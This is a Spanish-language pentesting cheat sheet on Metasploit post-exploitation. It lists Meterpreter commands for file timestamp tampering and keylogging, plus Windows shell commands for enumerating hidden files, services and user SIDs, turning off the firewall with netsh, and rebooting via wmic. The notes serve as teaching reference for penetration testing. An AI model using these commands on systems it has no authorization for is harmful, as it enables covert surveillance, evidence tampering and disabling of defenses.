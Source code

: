 # METASPLOIT:
Pequeña sección con hightlights sobre la suite de metasploit.

## Session:
Cuando ya hayas obtenido una "session" lo más comun son dos escenarios.

- Meterpreter:
  - Conjunto de herramientas que automatizan tareas dentro del equipo, son funciones precargadas por así decirlo, como siempre esto ya se esta quedando en desuso, por que simplemente hace demasiado ruido.
-  Shell:
  - Es la comunicación directa a la linea de comandos de un sistema, ya sea en windows (cmd, powershell, etc) o en linux por (sh, bash, etc.) incluso por una independiente de un servicio como son las web shell, una linea de comandos de jenkins, etc.

### Meterpreter:
Conjunto de funciones que automatizan el pentesting como:

#### Timestomp:
Analizis del timestamp de ficheros:
```
meterpreter > timestomp Fichero.txt -v
meterpreter > timestomp Fichero.txt -m "02/11/2008 08:10:03"
```

#### Cat:
Lectura de ficheros
```
meterpreter > cat Fichero.txt
```

#### Keyscan_start:
Keylogger automatizado:
```
meterpreter > keyscan_start
meterpreter > keyscan_dump
Dumping captured keystrikes...
vav<Shift>my phone number is...<Shift>
```

#### Idle:
Ver tiempo de inactividad en el equipo.
```
meterpreter > idletime
User has been idle for: 53 secs
```

#### search:
Buscar archivo
```
meterpreter > search -f namefile.txt
```

#### Shell:
Tambien podemos mandar a llamar a una shell directa.
```
meterpreter > shell
```

- Dir:
  - Busqueda de archivos ocultos
```
shell > dir /a:h
```

- sc:
  - Buscar servicios:
```
shell > sc queryex type=service state=all
```

- netsh:
  - Analizar el estatus del firewall.
```
shell > netsh firewall show state
shell > netsh show config
shell > netsh advfirewall show allprofiles
```
  - Apagar el firewall.
```
shell > netsh firewall set currentprofile state off
shell > netsh firewall set allprofiles state off
```

- findstr:
  - Buscar archivos por su nombre.
 ```
shell > findstr /E ".txt" > txt.txt
shell > findstr /E ".log" > log.txt
```

- wmic:
  - windows managment instrumentation, herramientas similares a las nativas de bash que nos ayudan a la adminstración de windows.
    - Versiones de software instalado.
```
wmic /node:"" product get name,version,vendor
```
    - Información del CPU:
```
wmic cpu get
```
    - SID de los usuarios:
```
wmic useraccount get name,sid
```
    - Reiniciar el sistema:
```
wmic os where Primary='TRUE' reboot 
```







